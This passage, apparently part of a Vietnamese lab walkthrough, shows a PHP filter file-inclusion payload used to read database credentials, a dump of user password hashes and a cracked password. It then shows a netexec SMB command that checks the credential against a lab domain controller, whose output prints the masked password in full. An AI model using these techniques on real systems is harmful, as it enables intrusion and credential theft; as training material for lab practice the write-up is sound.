 ![image](https://github.com/user-attachments/assets/b7827329-42fc-411f-a16b-99d59878737b)

Đến đây, ta sẽ thử dùng php filter để base64 nội dung file đi vì nếu include thẳng như trên thì web sẽ load nội dung đó và trả về cho ta kết quả của code thay vì là nội dung của nó. (php://filter/convert.base64-encode/resource=C:/xampp/htdocs/dev/db.php đường dẫn này nếu như ai đã từng dùng XAMPP rồi thì sẽ nghĩ ra được ngay) 

![image](https://github.com/user-attachments/assets/20caca09-3a9c-42fe-9c7e-7a99dbb08331)

Và đúng như mong đợi, khi decode lại ta sẽ có được thứ ta muốn

![image](https://github.com/user-attachments/assets/fb56845f-88b0-47f7-817c-f1f055e7d7ff)

Tua nhanh đoạn này một chút, sau khi có cred cho database, ta có thể kết nối tới mysql ở IP của child domain và enum tiếp, được hash của các user, xong rồi crack

```
+----+------------+--------------+-----------+----------------------------------+
| id | first_name | short_handle | last_name | password                         |
+----+------------+--------------+-----------+----------------------------------+
|  1 | Robert     | rsmith       | Smith     | 7e7abb54bb<REDACTED>7b368def7 	|
|  2 | Eric       | ewalters     | Walters   | d6e81aeb4d<REDACTED>02f11043e0ad |
|  3 | Christine  | cpowers      | Powers    | e3d3eb0f46<REDACTED>d11d54045a60 |
+----+------------+--------------+-----------+----------------------------------+
```
Cuối cùng ta sẽ có được user rsmith sau khi crack thành công MD5 hash của user này

```
7e7abb54bb<REDACTED>3007b368def7:I********2
```
Để confirm credential này ở child domain, mình sẽ sử dụng netexec như dưới đây

```
nxc smb 10.10.193.214 -u 'rsmith' -p 'I********2' --shares

SMB         10.10.193.214   445    LABDC            [*] Windows Server 2022 Build 20348 x64 (name:LABDC) (domain:lab.trusted.vl) (signing:True) (SMBv1:False)
SMB         10.10.193.214   445    LABDC            [+] lab.trusted.vl\rsmith:IHateEric2 
SMB         10.10.193.214   445    LABDC            [*] Enumerated shares
SMB         10.10.193.214   445    LABDC            Share           Permissions     Remark
SMB         10.10.193.214   445    LABDC            -----           -----------     ------
SMB         10.10.193.214   445    LABDC            ADMIN$                          Remote Admin                                                                                            
SMB         10.10.193.214   445    LABDC            C$                              Default share                                                                                           
SMB         10.10.193.214   445    LABDC            IPC$            READ            Remote IPC
SMB         10.10.193.214   445    LABDC            NETLOGON        READ            Logon server share                                                                                      
SMB         10.10.193.214   445    LABDC            SYSVOL          READ            Logon server share
```
# Latteral Movement
